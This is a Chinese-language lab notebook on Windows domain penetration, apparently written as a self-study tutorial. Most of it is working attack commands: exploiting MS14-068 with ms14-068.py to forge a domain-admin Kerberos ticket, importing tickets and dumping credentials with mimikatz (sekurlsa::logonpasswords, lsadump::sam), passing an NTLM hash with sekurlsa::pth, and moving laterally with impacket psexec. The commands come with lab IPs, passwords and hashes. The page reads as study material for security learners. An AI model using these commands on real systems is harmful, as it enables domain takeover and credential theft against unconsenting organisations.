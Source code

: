 ```yaml
---
title: 域渗透入门（二）
categories:
- WindowDomain
tags:
- WindowDomain
---
```

域渗透入门（二）
===
## 参考资料
- 乌云文章：《使用Hash直接登录Windows》、
- [维基百科Pass_the_hash的定义](https://en.wikipedia.org/wiki/Pass_the_hash)
- [metasploit mimikatz](https://www.fujieace.com/metasploit/mimikatz.html)

## 录制的视频教程

 [域渗透实践篇（二）](https://www.bilibili.com/video/BV1Qz411B7BQ)
1. 域信息搜集
2. ms14-068 域普通用户提权到域管理员

 [域渗透实践篇（三）](https://www.acfun.cn/v/ac15162313)
1. pass the hash票据传递攻击

## Kerberos域用户提权漏洞ms14-068

### 准备域内普通用户权限（以及DC未打补丁）

1. 域控添加一个user用户

2. 192.168.1.3 计算机添加user用户
```
net user user admin!@#45      #添加一个用户user，添加密码
---
注销管理员用户，登陆用户user
用户名：SRV-WEB-KIT\user
密码：admin!@#45
```
3. 测试域普通用户与域管理员区别

4. 生成高权限票据
```
python ms14-068.py -u whale@0day.org -s  S-1-5-21-1812960810-2335050734-3517558805-1178 -d 192.168.1.131 -p qwe123$%
 
需要普通域用户名称
普通域用户sid
普通域用户明文密码或者hash
```
5. mimikatz导入hash
```
mimikatz.exe
kerberos::list			#列出内存中的票据信息
kerberos::purge         #清除内存中的票据信息
kerberos::ptc TGT_whale@rootkit.org.ccache(生成的高权限票据全名)	#导入高权限票据到内存，获得域管理员权限

```
## 票据传递
```
mimikatz_command -f sekurlsa::logonPasswords
导出登陆的密码

python /usr/share/doc/python-impacket/examples/psexec.py Administrator@192.168.1.2 cmd.exe

使用密码admin!@#45，成功连接

使用ntlm hash，ccef208c6485269c20db2cad21734fe7，连接失败

有两种可能 
1. 工具psexec.py，只能使用明文密码连接
2. hash出错，不是ccef208c6485269c20db2cad21734fe7, 而是其他hash
3. windows 2012 R2不支持pass the hash
```
### NT hash、LM hash、NTLM hash
LM hash的全名LAN Manager Hash，容易被破解。因此windows visa与winSever2008之后的版本默认禁用了LM hash。
NTLM hash取代了LM hash，安全性更高，从windowsSever2003开始，默认使用NTLM hash。

所说的NT hash就是NTLM hash，有些文档这么称呼，我还以为是两种不同的加密方式，只是称呼不同而已。

### mimikatz提权ntlm hash
```
mimikatz.exe
log
lsadump::sam /sam:sam.hiv /system:sys.hiv
```
### 查看DC机器与Web机器的hash是否一致
```
修改web机器密码：net user administrator qwe123$%
保持这个密码与DC一致

DC (192.168.1.131): 4b211aa32bcd009f4d46f52438fe433d
WEB(192.168.1.130)：4b211aa32bcd009f4d46f52438fe433d

privilege::debug
sekurlsa::pth /user:administrator /domain:0day.org /ntlm:4b211aa32bcd009f4d46f52438fe433d
```
---
```
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt
一行命令，将结果保存到log.txt
```
---
```
sekurlsa::logonpasswords
dir \\OWA2010SP3\C$
```
